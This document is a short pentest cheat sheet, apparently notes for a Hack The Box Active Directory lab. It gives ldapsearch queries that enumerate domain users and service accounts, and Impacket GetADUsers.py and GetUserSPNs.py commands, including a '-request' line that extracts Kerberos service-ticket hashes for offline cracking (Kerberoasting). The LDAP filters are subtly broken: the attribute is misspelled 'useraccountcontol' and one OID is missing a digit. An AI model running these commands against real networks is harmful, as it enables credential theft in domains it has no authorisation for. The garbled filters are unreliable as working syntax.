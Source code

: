 # ldap

```bash
ldapsearch -x -h 10.10.10.10 -p 389 -D 'user' -w 'password' -b "dc=domain,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontol:1.2.840.113556.1.4.803:=2))" samaccountname | grep sAMAccountName
ldapsearch -x -h 10.10.10.10 -p 389 -D 'user' -w 'password' -b "dc=domain,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontol:1.2.840.13556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 serviceprincipalName 

```

![Untitled](ldap%20994c1f78779d48539b16e6d06c25dbfb/Untitled.png)

![Untitled](ldap%20994c1f78779d48539b16e6d06c25dbfb/Untitled%201.png)

**GetADUsers & GetUserSPNs**

```bash
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.10
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.10
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.10 -request
```

![Untitled](ldap%20994c1f78779d48539b16e6d06c25dbfb/Untitled%202.png)

![Untitled](ldap%20994c1f78779d48539b16e6d06c25dbfb/Untitled%203.png)